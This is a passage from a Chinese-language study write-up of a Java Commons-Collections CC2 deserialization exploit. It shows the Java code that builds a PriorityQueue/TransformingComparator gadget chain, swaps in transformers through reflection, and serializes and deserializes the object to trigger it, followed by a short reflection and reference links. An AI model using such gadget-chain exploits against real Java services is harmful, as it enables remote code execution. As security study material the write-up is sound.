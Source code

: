 ```java
        Comparator transformingcomparator = new TransformingComparator(transformerChain);
        PriorityQueue priorityQueue = new PriorityQueue(2,transformingcomparator);
        priorityQueue.add(1);
        priorityQueue.add(2);

        Field f = ChainedTransformer.class.getDeclaredField("iTransformers");
        f.setAccessible(true);
        f.set(transformerChain,transformers);

        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(barr);
        oos.writeObject(priorityQueue);
        oos.close();

        System.out.println(barr);
        ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(barr.toByteArray()));
        Object o = (Object)ois.readObject();
    }
}
```

![image-20231208125643905](C:\Users\86158\AppData\Roaming\Typora\typora-user-images\image-20231208125643905.png)

# 总结

对Java反序列化有了一点自己的理解，第一次完全独立写出一个exp。

熟能生巧。

# 参考链接

- https://xz.aliyun.com/t/12544#toc-4
- https://drun1baby.top/2022/06/28/Java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96Commons-Collections%E7%AF%8705-CC2%E9%93%BE